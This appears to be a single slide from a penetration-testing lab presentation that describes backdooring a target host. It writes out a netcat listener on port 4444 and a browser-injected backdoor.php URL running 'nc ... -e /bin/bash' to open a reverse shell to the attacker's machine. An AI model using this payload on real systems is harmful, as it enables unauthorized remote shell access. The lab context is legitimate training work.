

# Backdooring the Target
Backdoor Overview
we used netcat reverse shell for our backdoor
Our elite hacking skills left a bash shell on port 4444
netcat listening and command inject that activates the back door script.
Steps taken:
we used the terminal on our kali machine, set a netcat listener on port 4444
we executed a bash script from the command line, we then executed a script that opens a shell on the port 4444. it was injected from the browser
(http://192.168.1.110/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash)

29